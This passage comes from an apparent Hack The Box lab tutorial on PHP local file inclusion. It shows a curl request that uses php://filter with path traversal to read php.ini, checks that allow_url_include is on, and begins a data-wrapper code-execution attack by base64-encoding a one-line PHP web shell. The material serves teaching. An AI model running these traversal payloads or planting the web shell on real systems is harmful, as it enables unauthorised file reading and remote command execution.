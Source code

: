#### Checking PHP Configurations

To do so, we can include the PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx, where `X.Y` is your install PHP version. We can start with the latest PHP version, and try earlier versions if we couldn't locate the configuration file. We will also use the `base64` filter we used in the previous section, as `.ini` files are similar to `.php` files and should be encoded to avoid breaking. Finally, we'll use cURL or Burp instead of a browser, as the output string could be very long and we should be able to properly capture it:

  PHP Wrappers

```shell-session
ShibuShivansh@htb[/htb]$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
<!DOCTYPE html>

<html lang="en">
...SNIP...
 <h2>Containers</h2>
    W1BIUF0KCjs7Ozs7Ozs7O
    ...SNIP...
    4KO2ZmaS5wcmVsb2FkPQo=
<p class="read-more">
```

Once we have the base64 encoded string, we can decode it and `grep` for `allow_url_include` to see its value:

  PHP Wrappers

```shell-session
ShibuShivansh@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

Excellent! We see that we have this option enabled, so we can use the `data` wrapper. Knowing how to check for the `allow_url_include` option can be very important, as `this option is not enabled by default`, and is required for several other LFI attacks, like using the `input` wrapper or for any RFI attack, as we'll see next. It is not uncommon to see this option enabled, as many web applications rely on it to function properly, like some WordPress plugins and themes, for example.

#### Remote Code Execution

With `allow_url_include` enabled, we can proceed with our `data` wrapper attack. As mentioned earlier, the `data` wrapper can be used to include external data, including PHP code. We can also pass it `base64` encoded strings with `text/plain;base64`, and it has the ability to decode them and execute the PHP code.

So, our first step would be to base64 encode a basic PHP web shell, as follows:

  PHP Wrappers

```shell-session
ShibuShivansh@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```
